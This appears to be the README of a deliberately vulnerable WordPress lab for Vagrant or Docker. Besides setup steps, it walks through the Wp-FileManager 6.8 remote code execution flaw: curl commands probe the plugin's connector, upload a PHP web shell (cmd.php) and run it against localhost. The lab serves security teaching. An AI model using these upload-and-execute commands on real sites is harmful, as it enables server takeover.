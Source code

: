 # WordpressVuln



A vulnerable wordpress site


# Install 

The vulnerable wordpress server could run in :
- a virtual machine on an ubuntu host 
- in a docker



## VM

### Install thanks vagrant  
```
sudo apt install vagrant
git clone https://github.com/jossets/WordpressVuln
vagrant up
```

### Credentials 

Vagrant alpine box credentials are:
- login: vagrant 
- password: vagrant 

## Docker 

### Install thanks docker-compose  

Install docker & docker compose: https://docs.docker.com/engine/install/ubuntu/

```
sudo gpasswd -a $USER docker
git clone https://github.com/jossets/WordpressVuln
docker-compose up
```

# Exploit 

WordPress Plugin Wp-FileManager 6.8 - RCE 
https://www.exploit-db.com/exploits/49178

## Detect 
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

{"error":["errUnknownCmd"]}
```

## Exploit

### Upload cmd.php
```
curl -F "cmd=upload" -F "target=l1_Lw"  -F "upload[]=@cmd.php" "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

### Run it
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/files/cmd.php"

Pwnd
```


# Traces 

Trace dockers du serveur web/mariadb
```
docker compose logs -f
```

Traces réseau du containers: tcpdump
```
sudo tcpdump -i any
```

Traces réseau du containers: script python
```
sudo ./sniffer.py $(./getdockerif.sh wordpressvuln_wordpress_1)
```
